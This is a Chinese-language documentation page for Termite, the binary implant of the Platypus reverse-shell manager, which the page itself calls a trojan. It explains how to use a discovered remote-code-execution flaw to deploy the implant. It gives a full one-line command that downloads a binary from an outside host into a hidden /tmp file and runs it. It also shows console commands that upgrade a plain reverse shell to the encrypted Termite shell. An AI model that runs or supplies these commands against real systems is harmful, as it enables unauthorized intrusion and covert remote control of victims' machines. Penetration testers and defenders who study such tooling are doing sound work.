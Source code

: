# Termite

## Termite 是什么？

Termite 是 Platypus 提供的一个二进制客户端，提供了多种有用功能，如：

* 完全交互式 Shell（使用就像 SSH 一样丝滑），并且可以同时启动多个 Shell 而互不影响。
* 4 种不同的[隧道](./tunnel.md)功能
* 更加稳定可靠的文件操作

## 直接获取 Termite Shell

当您在目标网站已经发现了一个远程命令执行漏洞的时候，可以执行通过执行如下命令直接生成 Termite Shell。

```bash
curl -fsSL http://1.3.3.7:13339/termite/1.3.3.7:13337 -o /tmp/.H0Z9 && chmod +x /tmp/.H0Z9 && /tmp/.H0Z9
```

## 升级至 Termite（推荐）

当您已经获得了一个反向 Shell 之后，强烈建议您使用 `Upgrade` 命令将其升级为更稳定可靠并且提供加密机制等其他非常有用的功能的 Termite Shell。

!!! Termite
    Termite 是 Platypus 的二进制木马，提供流量加密、交互式 Shell 等功能。

当您已经使用 `Jump` 命令跳转到目标 Shell 之后，您可以使用如下命令来将当前的明文 Shell 提升为更加可靠的 Termite，稍等片刻，您将会看到一个带有 `[Encrypted]` 标记的 Shell 上线。

```
» Jump d2958c94f5425eb709fb5c8690128268
» Upgrade 1.3.3.7:13337
```

您也可以通过 Web 界面来升级到 Termite。

![](/images/webui/upgrade.gif)

与 Termite 交互的逻辑与通常的反向 Shell 一致，即：`Jump` 然后 `Interact`。
